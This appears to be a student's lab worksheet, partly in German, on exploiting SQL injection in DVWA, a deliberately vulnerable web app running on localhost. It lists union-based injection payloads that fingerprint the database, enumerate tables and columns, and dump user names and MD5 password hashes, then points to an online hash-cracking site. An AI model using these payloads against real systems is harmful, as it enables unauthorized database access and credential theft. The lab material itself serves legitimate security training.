 * LAB: HACKING MYSQL and WEB-APP (dvwa) with sql-injection
- [ ] https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/
- [ ] http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson6/
 
 

* DIY 1: Identify sql-injection point

#+begin_src bash
http://localhost:8800/vulnerabilities/sqli/

http://localhost:8800/vulnerabilities/sqli/?id=1&Submit=Submit#
#+end_src

* DIY 2: use sql injection

#+begin_src bash

select .... from ... where id=' INPUT '

Für INPUT setzt man folg. ein:

1' or 0=0

1' union select null, version() #

1' union select null, user() #

1' union select null, database() #

1' union select null, table_name from information_schema.tables #

1' union select null, table_name from information_schema.tables where table_name like 'user%'#

1' union select null, concat(table_name,0x2e,column_name) from information_schema.columns where table_name = 'users' #

1' union select null, concat(first_name,0x2e,last_name,0x2e,user,0x2e,password) from users #


decrypt md5 password-hash with
https://www.md5online.org/md5-decrypt.html

whats the password of:
Pablo.Picasso.pablo.0d107d09f5bbe40cade3de5c71e9e9b7


#+end_src

